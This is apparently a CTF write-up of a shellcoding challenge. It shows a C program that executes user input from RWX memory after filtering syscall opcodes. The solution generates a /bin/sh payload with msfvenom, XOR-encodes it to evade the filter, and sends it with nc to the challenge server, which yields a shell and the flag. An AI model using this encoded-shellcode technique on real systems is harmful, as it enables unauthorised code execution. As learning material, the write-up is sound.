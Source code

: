 ```yaml
---
title: "Universiti Malaya CTF 2025"
date: 2025-04-13 
categories: [CTF]
tags: [CTF]
image:
  path: /assets/img/Umcs.jpeg

---
```

## 💥 Binary Exploitation <br><br>

## Hint: 🔍🧬Shellcode 
```
#include <sys/mman.h>
#include <sys/prctl.h>
#include <sys/personality.h>
#include <arpa/inet.h>
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>

void *shellcode;
size_t shellcode_size;

void vuln() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    shellcode = mmap((void *)0x26e45000, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANON, 0, 0);

    puts("Enter 0x1000:");
    shellcode_size = read(0, shellcode, 0x1000);
    for (int i = 0; i < shellcode_size; i++) {
        uint16_t *scw = (uint16_t *)((uint8_t *)shellcode + i);
        if (*scw == 0x80cd || *scw == 0x340f || *scw == 0x050f) {
            printf("Bad Byte at %d!\n", i);
            exit(1);
        }
    }

    puts("Executing shellcode!\n");
    ((void(*)())shellcode)();
}

int main() {
    vuln();
    return 0;
}
```
## 🔎 Initial Observation

```
  shellcode = mmap((void *)0x26e45000, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANON, 0, 0);
```
**This memory setup can be write down instructions and immediately carry them out. The**
**PROT_READ|PROT_WRITE|PROT_EXEC flags together mean this memory can be read from, written to, and run as code.**
```
  if (*scw == 0x80cd || *scw == 0x340f || *scw == 0x050f) {
            printf("Bad Byte at %d!\n", i);
            exit(1);
        }
```
**This segment of code showing its banning direct system calls like ,syscalls,sysenter and int0x80 a traditional way to make system calls on 32 bit linux.**

```
 puts("Executing shellcode!\n");
    ((void(*)())shellcode)();
```
**If 0x80cd,0x340f,0x050f was called it will showing  bad byte and if no bad byte not appear it** 
**will execute the shellcode.**

---

## 🧨Exploitation Analysis 
```
(luna@faris)-[~/um]
└─$ msfvenom -p linux/x64/exec CMD="/bin/sh" -f raw > babysc.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 44 bytes
```
**Im just gonna use the msfvenom on this part.**
```
(luna@faris)-[~/um]
└─$ (cat babysc.bin; cat) | nc 34.133.69.112 10001
Enter 0x1000
Bad Byte at 42!
```
```
(luna@faris)-[~/um]
└─$ hexdump -C babysc.bin
00000000  48 b8 2f 62 69 6e 2f 73  68 00 99 50 54 5f 52 66  |H./bin/sh..PT_Rf|
00000010  68 2d 63 54 52 e8 08 00  00 00 2f 62 69 6e 2f  |h-cTR...../bin/|
00000020  73 68 00 56 57 54 5e 6a  3b 58 0f 05           |sh.VWT^j;X..|
0000002c
```
**I been wondering why its saying bad byte on this and decide to use hexdump on this part and its obviously im** 
**calling direct syscalls on /bin/sh so i decide to use xor encoder to encode the shellcode.** 




```
(redswiss@faris)-[~/Downloads]
└─$ msfvenom -p linux/x64/exec CMD="/bin/sh" -f raw -e x64/xor -o babysc.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 87 (iteration=0)
x64/xor chosen with final size 87
Payload size: 87 bytes
Saved as: babysc.bin

(redswiss@faris)-[~/Downloads]
└─$ hexdump -C babysc.bin
00000000  48 b1 c9 9e 48 81 e9 fa  ff ff ff 48 8d 05 ef ff  |H..H.......H....|
00000010  ff ff bb ef c8 f9 b6 62  b2 97 50 48 31 58 27 48  |....b..b.PH1X'H|
00000020  2d f8 ff ff ff e2 f4 a7  70 d6 d4 0b dc b8 23 87  |-...........p...#.|
00000030  c0 e0 6e 36 ed c5 36 87  e5 9a e2 3c e0 7f 58 ef  |..n6..6......<.X.|
00000040  c8 f9 99 00 db f9 7f 9c  a0 f9 e0 35 e6 c9 3a d4  |............5..:.|
00000050  90 f6 b3 62 b2 97 50                          |...b..P|
00000057
```

**Nice! We can see that its no longer using direct syscalls.**

## 🎉 Result

```
(luna@faris)-[~/um]
└─$ (cat babysc.bin; cat) | nc 34.133.69.112 10001
Enter 0x1000
Executing shellcode!

ls
babysc
flag.txt
limauaiakosong
supgais
```
```
Flag:umcs{shellcoding_78b18b51641a3d8ea260e91d7d05295a}
```














